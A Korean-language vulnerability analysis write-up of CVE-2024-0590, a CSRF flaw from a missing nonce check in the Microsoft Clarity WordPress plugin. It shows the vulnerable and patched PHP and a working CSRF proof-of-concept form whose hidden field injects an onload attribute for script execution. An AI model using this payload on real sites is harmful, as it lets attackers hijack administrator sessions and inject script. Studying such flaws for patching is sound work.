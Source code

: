 ```yaml
---
title: "[CVE-2024-0590] 취약점 분석 보고서"
description: "Microsoft Clarity에서 발생하는 CSRF 취약점"
author: bde574786
date: 2025-02-21 18:47:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, CVE, CSRF]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **1. 취약점 개요**

WordPress 용 Microsoft Clarity 플러그인은 무료 웹 플러그인으로, 세션 녹화와 히트맵을 통해 사용자 행동을 분석하고, Copilot을 활용해 데이터를 요약·해석할 수 있다. 메트릭 대시보드를 제공하며, 개인정보 보호 기능이 내장되어 있고, 대규모 트래픽을 처리하면서도 사이트 성능에 영향을 주지 않는다. 간단한 설정만으로 사이트 모니터링이 가능하다.

CVE-2024-0590 취약점은 `edit_clarity_project_id` 함수에서 nonce 검증이 누락되었기 때문에 공격자는 프로젝트 ID를 변경하고 위조된 요청을 통해 악성 JavaScript를 추가할 수 있으며, 사이트 관리자를 속여 링크를 클릭하는 등의 작업을 수행하도록 할 수 있다.

## **2. 영향을 받는 버전**

- Microsoft Clarity ≤ 0.9.3

## **3. 취약점 테스트**

1. WordPress에서는 Editor 이하의 사용자 역할은 보안상의 이유로 `script` 태그 사용이 제한된다. 이러한 제한은 Wordpress의 `unfilterd_html` 기능과 관련이 있다. `unfiltered_html` 권한은 Administrator와 Editor 역할에만 부여되며, Author, Contributor, Subscriber 등 그 이하의 역할에는 부여되지 않는다. 
    
    [Roles and Capabilities](https://wordpress.org/documentation/article/roles-and-capabilities/)
    
    ![image.png](/assets/posts/one-day/2025-02-21/image.png)
    
    따라서, 최소 권한인 Editor로 글을 작성한다. 페이로드는 아래와 같다.
    
    ```php
    <!DOCTYPE html>
    <html>
       <body>
    <script>
     function exploit(){
    	 csrf_form.setAttribute('action', "http://localhost:8000"+csrf_form.getAttribute('action'));
    	 setTimeout(()=>{
    		 window.location="http://localhost:8000/wp-admin/admin.php?page=microsoft-clarity"
    	 },2000)
     }
    	</script>
          <h1>CSRF PoC</h1>
          <form action="/wp-admin/admin-ajax.php" method="POST" name=csrf_form id=csrf_form target="_blank">
             <input type="hidden" name="action" value="edit_clarity_project_id" />
             <input type="hidden" name="new_value" value='" onload=alert(1) x="' />
             <input type="submit" onclick=exploit()  value="Submit request" />
          </form>
       </body>
    </html>
    ```
    

2. Custom HTML 블록 안에 페이로드를 삽입한다.
    
    ![image.png](/assets/posts/one-day/2025-02-21/image%201.png)
    

3. Admin으로 로그인 한 후 Editor가 작성한 게시물의 버튼을 클릭하면 Clarity 프로젝트의 ID 값을 변경할 수 있다.
    
    ![image.png](/assets/posts/one-day/2025-02-21/image%202.png)
    

## **4. 취약점 상세 분석**

`edit_clarity_project_id` 함수에는 CSRF 방어를 위한 Nonce 검증이 누락되어 있다. `new_value` 라는 사용자 입력값을 검증 없이 바로 사용하므로, 공격자가 관리자의 세션을 이용하여 악성 요청을 보낼 수 있다.

```php
/**
* Add callback triggered when a new message is received
* Edits the clarity project id option respectively
*/
add_action('wp_ajax_edit_clarity_project_id', "edit_clarity_project_id");
function edit_clarity_project_id() {
    $new_value = $_POST['new_value'];
    // only admins are allowed to edit the Clarity project id
    if (!current_user_can('manage_options')) {
        die(
            json_encode(
                array(
                    'success' => false,
                    'message' => 'User must be WordPress admin.'
                )
            )
        );
    } else {
        update_option(
            'clarity_project_id', /* option */
            $new_value /* value */
            /* autoload */
        );
        die(
            json_encode(
                array(
                    'success' => true,
                    'message' => 'Clarity project updated successfully.'
                    )
                )
        );
    }
}

```

## **5. 패치**

CSRF에 취약했던 `edit_clarity_project_id` 함수에 csrf 토큰 검증 로직이 추가되었다.

[https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3036293%40microsoft-clarity&old=2942949%40microsoft-clarity&sfp_email=&sfph_mail=](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3036293%40microsoft-clarity&old=2942949%40microsoft-clarity&sfp_email=&sfph_mail=)

```php
/**
* Add callback triggered when a new message is received
* Edits the clarity project id option respectively
*/
add_action('wp_ajax_edit_clarity_project_id', "edit_clarity_project_id");
function edit_clarity_project_id() {
    $new_value = $_POST['new_value'];
    $nonce = $_POST['nonce'];
    if (!wp_verify_nonce($nonce, "wp_ajax_edit_clarity_project_id")) {
        die(
            json_encode(
                array(
                    'success' => false,
                    'message' => 'Invalid nonce.'
                )
            )
        );
    }
    // only admins are allowed to edit the Clarity project id
    if (!current_user_can('manage_options')) {
        die(
            json_encode(
                array(
                    'success' => false,
                    'message' => 'User must be WordPress admin.'
                )
            )
        );
    } else {
        update_option(
            'clarity_project_id', /* option */
            $new_value /* value */
            /* autoload */
        );
        die(
            json_encode(
                array(
                    'success' => true,
                    'message' => 'Clarity project updated successfully.'
                    )
                )
        );
    }
}
```